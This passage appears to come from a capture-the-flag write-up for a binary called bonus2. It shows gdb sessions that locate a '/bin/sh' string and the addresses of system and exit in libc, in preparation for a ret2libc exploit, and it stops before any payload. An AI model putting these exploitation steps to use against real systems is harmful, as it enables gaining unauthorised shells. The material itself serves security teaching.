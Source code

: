 Let's check if we can do a ret2libc : need the address of :

- "system"
- a "/bin/sh" string

Let's check if we have a "/bin/sh" string

	(gdb) info proc map
	process 9646
	Mapped address spaces:

		Start Addr   End Addr       Size     Offset objfile
		0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
		0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
		0x804a000  0x806b000    0x21000        0x0 [heap]
		0xb7e2b000 0xb7e2c000     0x1000        0x0 
		0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
		0xb7fd2000 0xb7fd5000     0x3000        0x0 
		0xb7fdb000 0xb7fdd000     0x2000        0x0 
		0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
		0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
		0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
		0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
		0xbffdf000 0xc0000000    0x21000        0x0 [stack]

Check in the libc, start at 0xb7e2c000 and end at 0xb7fcf000

	(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
	0xb7f8cc58
	1 pattern found.

	(gdb) x/s 0xb7f8cc58
	0xb7f8cc58:	 "/bin/sh"

Ok, there is the string "/bin/sh" at the address "0xb7f8cc58"

	(gdb) info function system 
	All functions matching regular expression "system":

	Non-debugging symbols:
	0xb7e6b060  __libc_system
	0xb7e6b060  system
	0xb7f49550  svcerr_systemerr

The address of the function system is 0xb7e6b060

We can do it properly with "exit" instead of junk in the ret address

	(gdb) info function exit
	All functions matching regular expression "exit":

	Non-debugging symbols:
	0xb7e5ebe0  exit
	0xb7e5ec10  on_exit
	0xb7e5ee20  __cxa_atexit
	0xb7e5efc0  quick_exit
	0xb7e5eff0  __cxa_at_quick_exit
	0xb7ee41d8  _exit
	0xb7f28500  pthread_exit
	0xb7f2dc10  __cyg_profile_func_exit
	0xb7f4c750  svc_exit
	0xb7f56c80  atexit
